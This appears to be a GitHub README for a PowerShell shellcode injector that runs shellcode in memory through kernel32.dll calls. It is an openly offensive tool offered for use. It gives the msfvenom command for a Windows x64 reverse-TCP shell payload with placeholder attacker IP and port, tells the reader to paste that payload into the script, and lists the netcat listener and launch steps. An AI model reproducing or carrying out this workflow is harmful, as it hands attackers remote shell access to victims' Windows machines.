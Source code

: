 # PowerShell Shellcode Injector

## Description
This project provides a PowerShell script that uses Windows API functions to inject shellcode into memory and execute it as a separate thread in the system. The script utilizes functions from `kernel32.dll` to allocate memory, create a thread, and wait for the result.


## Create ShellCode
- Change the line 37.
  ```bash
  msfvenom -p windows/x64/shell_reverse_tcp lhost=YOUR_IP lport=PORT -f powershell

## Features
- Allocates memory using `VirtualAlloc`.
- Creates a new thread to execute the shellcode.
- Uses the `WaitForSingleObject` API to wait for the thread to finish execution.

## Installation and Usage
### Requirements
- PowerShell 5.1 or higher.
- Administrator privileges on the machine to allocate memory and create threads.

### Setup
1. Clone the repository:
   ```bash
   git clone https://github.com/thangcongtran/Reverse-Shell-Powershell.git
   cd Reverse-Shell-Powershell
   nc -lvnp YOURPORT
   .\Reverse-Shell-Powershell.ps1
